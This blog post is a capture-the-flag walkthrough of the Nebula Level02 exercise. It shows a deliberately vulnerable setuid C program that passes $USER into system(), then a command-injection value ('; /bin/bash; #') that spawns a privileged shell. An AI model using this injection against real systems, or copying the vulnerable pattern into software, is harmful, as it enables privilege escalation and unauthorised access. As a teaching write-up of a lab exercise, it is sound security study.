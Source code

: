 ```yaml
---
title: "Exploit Exercises - Nebula Level02"
date: "2015-07-14"
slug: "exploit-exercises-nebula-level02"
Categories:
- Exploit Exercises
---
```


[Level02] instructs us to review some vulnerable C code and locate the attack vector. This program addresses the vulnerability from the previous level but a new vector is available. 

<!--more-->

The source code is included below for reference:

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>

	int main(int argc, char **argv, char **envp)
	{
  	char *buffer;

  	gid_t gid;
  	uid_t uid;

  	gid = getegid();
  	uid = geteuid();

  	setresgid(gid, gid, gid);
  	setresuid(uid, uid, uid);

  	buffer = NULL;

  	asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  	printf("about to call system(\"%s\")\n", buffer);
  
  	system(buffer);
	}

As you can see, "echo" is called by its absolute path but `getenv("USER"))` is calling the environment variable `$USER`. Like the issue from level01, this variable is set in the current shell which can be manipulated.

Let's modify the `$USER` variable to contain different input.

	level02@nebula:/home/flag02$ echo ${USER}
	level02
	level02@nebula:/home/flag02$ USER="; /bin/bash; #"
	level02@nebula:/home/flag02$ echo ${USER}
	; /bin/bash; #

As you can see in the code above, I modified the environment variable `USER` to contain `"; /bin/bash; #"`. The semicolons were added in order to stop the current command and start a new one, allowing us to stop the "echo" call and spawn a shell. Finally, I added an octothorp (#) in order to comment out the "is cool" line that would create malformed output.

Let's run flag02 and observe the results:


	level02@nebula:/home/flag02$ id
	uid=1003(level02) gid=1003(level02) groups=1003(level02)
	level02@nebula:/home/flag02$ ./flag02
	about to call system("/bin/echo ; /bin/bash; # is cool")
	
	flag02@nebula:/home/flag02$ id
	uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
	flag02@nebula:/home/flag02$ getflag
	You have successfully executed getflag on a target account

It worked! This level demonstrates the danger of using environment variables in scripts and trusting user input. 

Thanks for reading!

[Mike][]

[Level02]: https://exploit-exercises.com/nebula/level02/ "Level02"
[Mike]: /contact "Contact Mike"

